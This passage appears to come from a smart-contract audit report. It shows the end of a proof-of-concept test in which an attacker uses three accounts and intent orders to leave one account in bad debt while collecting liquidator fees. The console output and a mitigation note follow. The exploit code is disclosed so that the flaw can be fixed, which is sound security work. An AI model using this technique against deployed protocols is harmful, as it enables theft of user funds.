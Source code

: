```solidity
    ](userC.address, intent2, DEFAULT_SIGNATURE);

  const WITHDRAW_COLLATERAL = parse6decimal('500')

  dsu.transfer.whenCalledWith(user.address, WITHDRAW_COLLATERAL.mul(1e12)).returns(true)

  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, -WITHDRAW_COLLATERAL, false)

  oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])

  await settle(market, user)
  await settle(market, userB)
  await settle(market, userC)

  var loc = await market.locals(user.address);
  console.log("user collateral: " + loc.collateral);
  var pos = await market.positions(user.address);
  console.log("user pos: long = " + pos.long);

  var loc = await market.locals(userC.address);
  console.log("userC collateral: " + loc.collateral);
  var pos = await market.positions(userC.address);
  console.log("userC pos: short = " + pos.short);

  var loc = await market.locals(userB.address);
  console.log("userB collateral: " + loc.collateral);

  var loc = await market.locals(liquidator.address);
  console.log("liquidator claimable: " + loc.claimable);

})
```

Console output:
```solidity
user collateral: -221400
user pos: long = 0
userC collateral: 500000000
userC pos: short = 0
userB collateral: 500000000
liquidator claimable: 44280
```

Demonstrates how Attacker can use 3 accounts to generate claimable fees for free, creating abandoned bad debt account in the process.

### Mitigation
The issue comes from the fact that position change is guaranteed for Intent orders, but fees are pending until price is commited and are not included in margin/maintenence check calculations. Possible mitigation is to subtract fees pending from the Intent orders (Guarantee) from the collateral in `InvariantLib` when doing margin/maintenence check.